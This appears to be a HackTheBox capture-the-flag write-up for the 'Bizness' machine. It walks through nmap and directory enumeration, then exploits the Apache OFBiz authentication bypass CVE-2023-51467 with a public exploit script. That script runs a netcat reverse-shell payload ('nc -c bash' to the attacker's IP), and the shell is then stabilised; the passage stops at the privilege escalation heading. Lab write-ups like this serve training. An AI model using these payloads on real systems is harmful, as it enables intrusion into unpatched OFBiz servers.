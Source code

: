 ```yaml
---
title: Bizness
published: 2024-08-05
description: Writeup for an easy labeled linux based HTB machine named Bizness.
image: https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/bizness_logo.png
tags: [HackTheBox, Linux, Machines]
category: Writeups
draft: true
---
```



# <center> BIZNESS </center>


Hello everyone. Let's solve an easy labeled linux based HTB machine named Bizness.

## Initial step (conifguring your local system)

- Download your open vpn configuration file and connect to htb vpn.
    - ```bash
        sudo openvpn <configuratio_file_name>
      ```
- Join the machine to get an IP. (in my case it is 10.10.11.252).
- tasks given:
    - submit user flag (32 hex characters).
    - submit root flag (32 hex characters).

Now we are good to go. we can access the website through our browser. Now let's dive into our actual hacking stuffs 😉. (Disclaimer: By "hacking", I meant <strong><i>ETHICAL</strong> Hacking</i>)

<hr>

## Scanning and Enumeration


- performing agressive nmap scan on the given ip. (-A stands for agressive in below command)
    - ```bash
        nmap -A -T4 10.10.11.252

        Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-30 22:07 IST
        Warning: 10.10.11.252 giving up on port because retransmission cap hit (6).
        Nmap scan report for bizness.htb (10.10.11.252)
        Host is up (0.41s latency).
        Not shown: 954 closed tcp ports (conn-refused), 43 filtered tcp ports (no-response)
        PORT    STATE SERVICE  VERSION
        22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
        | ssh-hostkey: 
        |   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
        |   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
        |_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
        80/tcp  open  http     nginx 1.18.0
        |_http-title: Did not follow redirect to https://bizness.htb/
        443/tcp open  ssl/http nginx 1.18.0
        | tls-alpn: 
        |_  http/1.1
        | ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
        | Not valid before: 2023-12-14T20:03:40
        |_Not valid after:  2328-11-10T20:03:40
        |_http-title: 400 The plain HTTP request was sent to HTTPS port
        | tls-nextprotoneg: 
        |_  http/1.1
        |_http-server-header: nginx/1.18.0
        |_ssl-date: TLS randomness does not represent time
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 112.27 seconds.
        ```

    - from nmap result we can observe SSH service and Ngnix on ports 80 and 443.
    - Also, a web app is running on port 80, but it is not accessible through ip address, so let's add the ip and it's domain name in out local `/etc/hosts` file and now it can be accessed using the ip (10.10.11.252 in my case) or its domain name `bizness.htb`.
    - ```bash
        sudo nano /etc/hosts
        ```
    - ![host file](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/editing_host_file.jpg)


- The website is static. After fuzzing it's input fields we can know that there is no case of parameter injection in the website. So now let's do some enumeration and search some hidden directories.

- performing dirsearch.
    - ```bash
        dirsearch -u https://bizness.htb
        ```
    - ![dirsearch result](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/dirsearch_result.jpg)

## Gaining Initial Access

- the most interesting result I foud was /control/login. (no doubt it's an eye catcher for a hacker 😉). Following the path bizness.htb/control/login took me to an apache ofbiz authentication page. Then I tried fuzzing and bruteforcing some of the passwords for admin user, but it was of no use 😮‍💨.
![ofbiz authentication page](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/ofbiz_authentication_page.jpg)

Then I remembered a statement "Google: A hacker's bestfriend", so immediately I googled some ways to bypass the ofbiz authentication. There I came to know about Apache OFBiz Authentication Bypass Vulnerability (CVE-2023-51467).
- [check this website](https://threatprotect.qualys.com/2023/12/27/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-51467/) to know more about the vulnerability details and exploit analysis.

Luckily I found an exploit on github that triggers <strong>Remote Code Execution (RCE) </strong>. So it's obvious that my next move would be to get a reverse shell using RCE. So I cloned [this Git repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git) to my local system.
- ![clonning exploit repo](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/clone_exploit_repo.jpg)

- <strong>Working on payload</strong>

    - my attacking (tun0) ip: `10.10.14.151` (can be found using ifconfig command)
    - command for netcat reverse shell:
    ```bash
        nc -c bash <ip> <port>
     ```
    - command to execute exploit on remote server:
    ```bash
        python3 exploit.py --url 'URL' --cmd 'CMD'
    ```
    - Final payload:
    ```bash
        python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.151 1234'
    ```
So finally I started my netcat listener on port 1234 with comman d `nc -lnvp 1234` and then executed the final payload in a next tab.
And voilà, We got a reverse shell.....

- ![getting reverse shell](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/getting_rev_shell.jpg)

Let's first stabilize the shell using the following commandd:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Navigating through the file system, we can find the user flag in /home/ofbiz/user.txt file 🫠.

But this is not the  end 🥴. Remember the task, we need to submit the root flag as well. So, lets do some vertical previlege escalation.

## Previlege Escalation

